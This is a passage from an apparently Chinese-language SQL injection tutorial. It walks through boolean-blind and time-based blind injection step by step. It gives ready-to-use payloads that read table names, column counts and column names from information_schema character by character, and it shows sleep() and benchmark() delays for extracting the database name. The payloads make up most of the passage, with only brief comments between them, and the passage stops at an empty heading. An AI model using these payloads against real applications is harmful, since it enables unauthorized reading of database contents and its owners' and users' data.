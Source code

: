 ```
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m) --+		//m为字段名长度 

//获取字段个数
1' and ((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据

```
select 字段 from 表
```

#### (3). 时间盲注

##### a. 相关函数

###### ①sleep()

* 用法：sleep(arg1)，arg1是休眠秒数

  ```
  select if(1=1,sleep(10),0)
  ```

###### ②benchmark()

* 用法：benchmark(arg1,arg2)，arg1是执行次数，arg2是执行的表达式

* 延迟时间**只和机器性能有关**

  ```
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and if((length(database()))>5,sleep(10),0) --+
```

###### ②获取数据库名称
